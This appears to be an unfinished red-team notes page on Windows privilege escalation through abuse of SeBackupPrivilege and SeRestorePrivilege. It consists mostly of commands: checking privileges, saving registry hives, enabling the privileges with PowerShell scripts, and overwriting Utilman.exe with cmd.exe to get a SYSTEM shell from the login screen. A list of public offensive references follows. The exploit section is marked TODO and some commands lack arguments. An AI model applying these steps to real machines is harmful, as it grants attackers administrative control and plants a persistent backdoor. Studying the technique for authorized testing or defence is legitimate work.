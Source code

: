 # Living off the Land

## 01 - Detect

Look for `SeBackupPrivilege` and `SeRestorePrivilege` enabled in the current local username account.

```
C:\> whoami /priv
```

## 02 - Exploit

TODO: Fill this info

```
C:\> reg save

C:\> robocopy /b
```

```
PS C:\> .\Set-TokenPrivilege.ps1 -privilege SeBackupPrivilege <pid>
```

```
PS C:\> Import-Module .\EnableSeRestorePrivilege.ps1

PS C:\> Enable-SeRestorePrivilege
```


```
PS C:\> copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.bkp

PS C:\> copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

---
## References

### Github

- [gtworek: Priv2Admin](https://github.com/gtworek/Priv2Admin)

- [gtworek: EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)

### Hacktricks

- [Hacktricks: Abusing Tokens](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

### Kojiroh

- [Kojiroh: How to Enable SeBackupPrivilege and SeRestorePrivilege](https://kojiroh.wordpress.com/2020/12/15/how-to-enable-sebackupprivilege-and-serestoreprivilege/)

### Lee Holmes

- [Lee Holmes: Adjusting Token Privileges in PowerShell](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)